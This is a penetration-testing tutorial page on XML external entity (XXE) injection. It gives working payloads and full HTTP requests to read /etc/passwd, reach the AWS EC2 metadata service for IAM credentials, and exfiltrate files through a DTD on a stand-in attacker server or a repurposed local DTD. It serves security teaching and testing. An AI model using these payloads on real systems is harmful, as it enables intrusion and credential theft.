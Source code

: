 # XXE injection

## Theory

Some web applications handle data and rely on the XML format to exchange data with the browsers.

> XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.
>
> XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data ([portswigger](https://portswigger.net/web-security/xxe)).

XXE injections can sometimes lead to [SSRF (Server-Side Request Forgery)](ssrf.md), Local File Disclosure, Sensitive Information Disclosure, Data Exfiltration, RCE (Remote Code Execution) and so on.

## Practice

### Identify an XXE injection vulnerability

Testers need to find inputs or forms that send XML formatted data to the application.

For instance, in the following request, the user submitted a search form with the input "TESTINPUT".

```http
POST /action HTTP/1.1
Host: some.website
[...]
Connection: close

<?xml version="1.0"?>
<searchForm>  
         <from>TESTINPUT</from>
</searchForm>
```

The tester can detect if the XML parser parses the external entities by defining one inside a `DOCTYPE` element, and checking if the value in the `from` element gets replaced (the value will be replaced in the reflected messages sent by the application like error messages, search results).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom "VULNERABLE"> ]>
<searchForm>  
         <from>&newfrom;</from>
</searchForm>
```

A vulnerable application should replace the value by "VULNERABLE".&#x20;

### Retrieve content of local files

When the tester has identified a vulnerable entry point (see [identify an XXE](xxe-injection.md#identify-an-xxe-injection-vulnerability)). He can try to disclose local files by replacing the `from` value with the content of a sensitive file (e.g. `/etc/passwd`).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom SYSTEM "file:///etc/passwd"> ]>
<searchForm>
  <from>&newfrom;</from>
</searchForm>
```

### Conduct an SSRF attack

An XXE can be exploited to conduct an SSRF. When an application performs data transfer using XML, the request can be intercepted and forwarded to an internal host as follow.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY newfrom SYSTEM "http://{internal_host}/..."> ]>
<searchForm>
    <from>&newfrom;</from>
</searchForm>
```

<details>

<summary>Example: Get EC2 IAM role temporary credentials</summary>

In the following example, the attacker tries to access the AWS EC2 metadata service to retrieve the EC2 role credentials used by the server.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/metadata/iam/security-credentials/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

```

The internal server will reveal the URL path to access the role's credentials as an error message at each step by displaying the HTTP response body of the accessed URL as follows:&#x20;

1. URL = "http://169.254.169.254/latest/metadata/iam/security-credentials/"\
   The server will return an error message revealing the EC2 role name: `invalid productId ec2-role-name`_._

<!---->

1. URL = "http://169.254.169.254/latest/metadata/iam/security-credentials/ec2-role-name"\
   The server will return an error message revealing the EC2 role's secrets as `invalid productId`.

For more details, refer to the ["XXE to SSRF" PortSwigger lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf).

</details>

### Blind XXE

Sometimes, an XXE injection can be found, but the app doesn't return the values of any defined external entities within its responses. It's called a blind XXE.

There are two ways to find & exploit a blind XXE :&#x20;

* XML parsing errors can be triggered so that sensitive data is included in the error messages.
* Out-of-band network interactions can be initiated, sometimes leaking sensitive data into the interaction data such as[ SSRF attacks](xxe-injection.md#conduct-an-ssrf-attack).

#### Blind XXE via error messages

It is possible to perform a blind XXE by triggering an XML parsing error where the error message contains the sensitive data that needs to be retrieved.

An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows :

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "ATTACKER-DTD-URL"> %xxe;]>
```

Then, on a victim server, the attacker can submit this payload to get access to the `/etc/passwd` file:

<figure><img src="../../.gitbook/assets/ERROR-BASED-BLIND-XXE.png" alt=""><figcaption><p>Diagram explaining a blind XXE</p></figcaption></figure>

<details>

<summary>Example</summary>

In this example, an attacker has access to a website containing a shop.

This shop has a "Check stock" feature that parses XML input but does not display the result.

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

If an attacker intercept this request, he will be able to perform a blind error based XXE. First, on the attacker server, prepare the XML payload that will lead to leak `/etc/passwd` due to an XML parsing error :

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

Then, the attacker will have to perform a out-of-band XXE to call the the payload stored on his exploit server :

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "URL_OF_THE_ATTACKER_PAYLOAD"> %xxe;]>
```

In the HTTP response, the attacker will have access to the `/etc/passwd` file of the victim's server that host the shop. Final payload will look like this :

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://attacker_server/xxe_payload"> 
%xxe;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

</details>

#### Blind XXE by repurposing a local DTD

This type of attack is used when blind out-of-band XXE cannot be performed.

An attacker can trigger error messages using a [loophole in the XML language specification.](#user-content-fn-1)[^1]

The attack consists in invoking an existing DTD file (on the local filesystem). Then, redefining the existing entity in a way that triggers a parsing error containing sensitive data like [Blind XXE via error ](xxe-injection.md#blind-xxe-via-error-messages)messages.

<figure><img src="../../.gitbook/assets/DTD-REPURPOSING-BLIND-XXE.png" alt=""><figcaption><p>Diagram explaining a blind XXE via repurposing a local DTD</p></figcaption></figure>

<details>

<summary>Example</summary>

In this example, an attacker has access to a website containing a shop.

This shop has a "Check stock" feature that parses XML input but does not display the result.

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=bbbbbbbbbbbbbbbbbbbbbbbbbb
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

An attacker can edit the request to repurpose a local DTD. The main challenge is to find an existing DTD.&#x20;

For example, systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`

Knowing this, the attacker can write this payload that will lead to leak the `/etc/passwd` file:&#x20;

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

Final payload will look like this :

```http
POST /product/stock HTTP/2
Host: something.web-security-academy.net.com
Cookie: session=bbbbbbbbbbbbbbbbbbbbbbbbbb
Content-Length: 107


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

</details>

## References

{% embed url="https://portswigger.net/web-security/xxe" %}

{% embed url="https://enciphers.com/how-to-exploit-xxe-vulnerabilities/" %}

{% embed url="https://portswigger.net/web-security/xxe/blind" %}

{% embed url="https://blog.zsec.uk/blind-xxe-learning/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection" %}

[^1]: If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed

